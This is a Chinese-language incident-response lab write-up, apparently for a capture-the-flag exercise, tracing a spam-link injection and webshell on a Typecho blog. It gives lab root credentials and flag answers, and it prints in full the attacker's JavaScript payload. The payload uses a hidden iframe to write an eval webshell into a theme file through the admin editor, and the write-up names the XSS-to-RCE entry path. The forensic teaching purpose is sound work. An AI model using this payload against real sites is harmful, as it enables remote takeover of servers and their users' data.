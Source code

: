 # 第五章-Linux实战-黑链

  
  
&lt;!--more--&gt;  
## 0x00 环境分析  
```  
服务器场景操作系统 Linux  
服务器账号密码 root xjty110pora 端口 2222  
```  
## 0x01  
1、找到黑链添加在哪个文件 flag 格式 flag{xxx.xxx}  
备份源码  
`tar -zcvf /tmp/web.tar.gz /var/www/html`  
搜索一下黑链  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406010016491.png)
在`header.php`中  
`flag{header.php}`  
2、webshell的绝对路径 flag{xxxx/xxx/xxx/xxx/}  
放到 D 盾里扫描一下或者全局搜索一下`eval`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406010018118.png)
发现在`404.php`中  
`flag{/var/www/html/usr/themes/default/404.php}`  
3、黑客注入黑链文件的 md5 md5sum file flag{md5}  
在`poc1.js`中发现了注入黑链的文件  
```javascript  
// 定义一个函数，在网页末尾插入一个iframe元素  
function insertIframe() {  
    // 获取当前页面路径  
    var urlWithoutDomain = window.location.pathname;  
    // 判断页面是否为评论管理页面  
    var hasManageComments = urlWithoutDomain.includes(&#34;manage-comments.php&#34;);  
    var tSrc=&#39;&#39;;  
    if (hasManageComments){  
        // 如果是，则将路径修改为用于修改主题文件的页面地址  
        tSrc=urlWithoutDomain.replace(&#39;manage-comments.php&#39;,&#39;theme-editor.php?theme=default&amp;file=404.php&#39;);  
    }else{  
        // 如果不是，则直接使用主题文件修改页面地址  
        tSrc=&#39;/admin/theme-editor.php?theme=default&amp;file=404.php&#39;;  
    }  
    // 定义iframe元素的属性，包括id、src、width、height和onload事件  
    var iframeAttributes = &#34;&lt;iframe id=&#39;theme_id&#39; src=&#39;&#34;&#43;tSrc&#43;&#34;&#39; width=&#39;0%&#39; height=&#39;0%&#39; onload=&#39;writeShell()&#39;&gt;&lt;/iframe&gt;&#34;;  
    // 获取网页原始内容  
    var originalContent = document.body.innerHTML;  
    // 在网页末尾添加iframe元素  
    document.body.innerHTML = (originalContent &#43; iframeAttributes);  
}  
  
// 定义一个全局变量isSaved，初始值为false  
var isSaved = false;  
  
// 定义一个函数，在iframe中写入一段PHP代码并保存  
function writeShell() {  
    // 如果isSaved为false  
    if (!isSaved) {   
        // 获取iframe内的内容区域和“保存文件”按钮元素  
        var content = document.getElementById(&#39;theme_id&#39;).contentWindow.document.getElementById(&#39;content&#39;);  
        var btns = document.getElementById(&#39;theme_id&#39;).contentWindow.document.getElementsByTagName(&#39;button&#39;);      
        // 获取模板文件原始内容  
        var oldData = content.value;  
        // 在原始内容前加入一段phpinfo代码  
        content.value = (&#39;&lt;?php @eval($_POST[a]); ?&gt;\n&#39;) &#43; oldData;  
        // 点击“保存文件”按钮  
        btns[1].click();  
        // 将isSaved设为true，表示已经完成写入操作  
        isSaved = true;  
    }  
}  
// 调用insertIframe函数，向网页中添加iframe元素和写入PHP代码的事件  
insertIframe();  
```  
`flag{10c18029294fdec7b6ddab76d9367c14}`  
4、攻击入口是哪里？url请求路径，最后面加/ flag{/xxxx.xxx/xxxx/x/}  
在源码中存在`output.pcag`，利用`wireshark`分析一下  
通过源码得知是`Typecho`，百度搜索得知存在`RCE`漏洞  
https://blog.mo60.cn/index.php/archives/Typecho-1-2-xss2rce.html  
通过流量包查看，正是此漏洞  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406010041181.png)
触发点是`/index.php/archives/1/`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406010043306.png)
`flag{/index.php/archives/1/}`  

---

> Author: N1Rvana  
> URL: http://localhost:1313/%E7%AC%AC%E4%BA%94%E7%AB%A0-linux%E5%AE%9E%E6%88%98-%E9%BB%91%E9%93%BE/  


